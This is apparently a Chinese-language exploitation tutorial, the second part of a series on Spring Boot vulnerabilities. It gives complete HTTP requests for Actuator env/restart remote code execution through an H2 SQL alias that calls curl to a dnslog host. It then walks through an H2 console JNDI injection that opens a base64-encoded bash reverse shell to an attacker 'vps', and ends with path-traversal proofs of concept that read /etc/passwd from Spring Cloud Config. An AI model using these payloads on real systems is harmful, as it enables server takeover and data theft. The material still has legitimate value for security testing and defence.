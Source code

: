 # Spring boot漏洞利用（2）

前面讲了Spring boot的相关漏洞的利用·，这篇继续讲一些Spring boot漏洞的利用

### Spring boot 2.x Actuator配置不当导致RCE

**影响版本**

spring-boot-starter-actuator 2.x with h2

**漏洞利用**

2.x与1.x的漏洞利用是不同的

（1）访问/actuator/env目录，如果存在，则可以试一下如下利用方式。

```
POST /actuator/env HTTP/1.1
Host: ip:60802
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 362

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'; CALL EXEC('curl http://ekb365.dnslog.cn');"}
```

![image-20200828160930548](pictures/image-20200828160930548.png)



需要注意Content-Type: application/json

（2）执行重启命令来执行第一步发送的命令

```
POST /actuator/restart HTTP/1.1
Host: ip:60804
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 2

{}
```

![image-20200828161009288](pictures/image-20200828161009288.png)

dnslog平台成功收到了

![image-20200828161038262](pictures/image-20200828161038262.png)

### Spring Boot + H2数据库JNDI注入RCE



H2 database是一款Java内存数据库，多用于单元测试。H2 database自带一个Web管理页面，在Spirng开发中，如果我们设置如下选项，即可允许外部用户访问Web管理页面，且没有鉴权。

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

**漏洞利用**

（1）访问he-console，如果存在，就会出现如下所示界面。

<img src="pictures/image-20200828161459922.png" alt="image-20200828161459922" style="zoom:67%;" />

（2）配置JNDI监听，工具下载地址：[https://github.com/su18/JNDI ](https://github.com/su18/JNDI)

（3）修改监听工具的配置文件，这里的端口选择自己在vps上开放的端口

<img src="pictures/image-20200828161637341.png" alt="image-20200828161637341" style="zoom:67%;" />

（4）配置反弹shell的命令

命令配置使用了command=bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC92cHMvNDQ0NyAwPiYx==}|{base64,-d}|{bash,-i}。这里base64编码是bash -i >& /dev/tcp/vps/4447 0>&1

![image-20200828161736292](pictures/image-20200828161736292.png)

（5）配置好后启动：java -jar JNDI-1.0-all.jar

（6）通过http：// ip：port / h2-console访问h2db管理台，在驱动程序类中插入javax.naming.InitialContext，	在JDBC网址中填充：rmi://vps:4444/BypassByEL

<img src="pictures/image-20200828161849069.png" alt="image-20200828161849069" style="zoom:67%;" />

​	JNDI收到了请求

<img src="pictures/image-20200828161918075.png" alt="image-20200828161918075" style="zoom:67%;" /> 

​	成功接受到了反弹的shell。

<img src="pictures/image-20200828161937962.png" alt="image-20200828161937962" style="zoom:67%;" /> 

### Spring Cloud Config目录穿越

这里分享两个POC



- /..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23foo/master
- /..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23foo/master

<img src="pictures/image-20200828162621094.png" alt="image-20200828162621094" style="zoom:67%;" />

<img src="pictures/image-20200828162740251.png" alt="image-20200828162740251" style="zoom:67%;" />